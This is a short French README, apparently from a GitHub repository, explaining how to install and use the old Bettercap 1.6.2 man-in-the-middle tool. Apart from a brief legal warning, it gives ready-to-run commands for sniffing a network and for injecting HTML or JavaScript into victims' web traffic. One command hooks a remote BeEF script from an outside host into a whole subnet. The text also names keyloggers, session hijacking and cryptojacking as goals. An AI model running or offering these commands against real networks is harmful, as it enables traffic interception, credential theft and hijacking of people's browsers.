# :heavy_check_mark: Bettercap 1.6.2
![alt text](https://www.bettercap.org/logo.png) </p>
Bettercap est un outils MITM multifonction, exemple : sniffing, injection ... </p>
:heavy_exclamation_mark: Cependant, sniffer un réseau qui n'est pas le votre est illégal. </p>
Dépendances à satisfaire => <b> ```apt-get install ruby ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu ```</b> </p>
Pour télécharger :<b> ```git clone https://github.com/hurikayne/bettercap_1.6.2-0parrot1_all``` </b> </p>
:heavy_check_mark: install => <b>```dpkg -i bettercap_1.6.2-0parrot1_all.deb```</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>```apt-get update```</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>```sudo apt-mark hold bettercap```</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): ```bettercap -X ```</p>
Pour de l'aide : <b>```bettercap -h``` </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), </p>exemple : injecter du html pour afficher un image à chaque page chargé par la victime, ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes (cryptojacking :ok_hand:, session hijacking ...). 
:heavy_check_mark: Pour faire de l'injection: <b>```bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html```</b>  </p>
Injection de code unique (Beef ex) : <b>```sudo bettercap -I wlan0 -G 172.51.1.1 -T 172.51.0.0/23 --proxy-module injectjs --js-url "http://172.51.1.91:3000/hook.js"```</b></p>
L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pour plus de détails voir le site officiel : https://www.bettercap.org/  </p>



